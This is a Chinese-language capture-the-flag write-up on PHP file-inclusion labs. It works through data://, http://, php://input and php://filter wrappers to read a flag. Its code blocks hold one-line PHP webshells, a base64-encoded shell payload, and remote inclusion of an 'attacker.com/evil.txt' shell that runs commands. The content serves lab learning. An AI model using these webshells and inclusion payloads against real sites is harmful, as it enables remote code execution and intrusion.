 ## L3:DATA协议，但过滤特殊符号

data协议还有另一种用法，就是可以进行加密处理  
代码中只过滤了特殊符号，所以我们可以使用加密完成操作。  
只要木马注入成功，我们就绕过了文件内容检测，于是实现了RCE

```
<?php eval($_POST['1']);?>    //一句话木马
?wrappers=;base64,PD9waHAgZXZhbCgkX1BPU1RbJzEnXSk7Pz4
1=hell=system('cat /flag');
```

![](https://cdn.nlark.com/yuque/0/2025/png/42695688/1743151208267-0cf2b0a9-4063-403d-b710-33d7d3550824.png)

## L4:http://协议

可以通过常规URL格式来实现文件访问，本来想自己构造一个木马文件，但是题目有后门，就不需要那么麻烦了，

```
?wrappers=127.0.0.1/backdoor.txt
ctf=system('cat /flag');
```

![](https://cdn.nlark.com/yuque/0/2025/png/42695688/1743152160882-802ac1ae-d4d3-43a7-91cb-aa9f530787e4.png)

## L5:http://协议，但没有后门文件

通过访问远端木马文件即可完成RCE,

```
?wrappers=raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI
a=system('cat /flag');
```

## L6:php协议_Demo

方法一：用php://filter，使用HB自带的LFI即可，之后进行base64解码

![](https://cdn.nlark.com/yuque/0/2025/png/42695688/1743205722230-97352bb0-73f4-4591-aa15-27bb82d9a339.png)

![](https://cdn.nlark.com/yuque/0/2025/png/42695688/1743205749408-5f945776-9e5d-4dc1-9dbd-1be53b9e023b.png)![](https://cdn.nlark.com/yuque/0/2025/png/42695688/1743205789827-de9a98ee-bf43-4fb6-b60f-53106ba42d2f.png)

方法二：用php://input
## L7:php:input协议

法一：第一个想法是利用php://读POST数据的特性，构造RCE，抓包，修改为POST包，添加包内容,传入一个参数执行RCE，失败。发现是我没用绕过第一步的检测，但最终还是没显示出flag

```
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php eval($_GET['']);?>
```

![](https://cdn.nlark.com/yuque/0/2025/png/42695688/1743208807342-9a05ffa0-f085-4bf6-a009-3a4dabd8a2a1.png)

法二：构造如图的包，姿势不同，主要使用了highlight_file（）来读取文件内容

![](https://cdn.nlark.com/yuque/0/2025/png/42695688/1743208578126-9297a69f-4319-4e4f-b503-7a14d8268436.png)

## L8:php://filter协议

直接使用HB自带的LFI即可拿下

```
?wrappers=filter/convert.base64-encode/resource=/flag
```

## L9:php://filter协议

和上题一模一样的Payload

```
?wrappers=filter/convert.base64-encode/resource=/flag
```

## L10:文件系统函数file_get_contens()

由于file_get_contens函数支持各种封装协议，我们使用HB自带的LFI即可获得flag

```
?file=php://filter/convert.base64-encode/resource=flag.php

值得注意的是，filter协议中不支持模糊匹配，下面的写法是错误的
?file=php://filter/convert.base64-encode/resource=fla*.???  
```

filter协议有严格的路径要求，所以我们必须知道文件名

那么如何获得文件名呢？

法一：暴力猜常见文件名

法二：如果allow_url_include=on开启，我们可以用php://input直接执行代码

```
GET /vuln.php?file=php://input HTTP/1.1
Host: target.com
Content-Type: text/plain

<?php system("id"); ?>
```

法三;如果allow_url_fopen=on开启，利用文件上传漏洞实现RCE

```
<?php system($_GET["cmd"]); ?>    //假设有个远程地址中含有RCE代码
//发送请求
GET /vuln.php?file=http://attacker.com/evil.txt HTTP/1.1
Host: target.com
//执行命令
GET /vuln.php?file=http://attacker.com/evil.txt&cmd=id HTTP/1.1
```

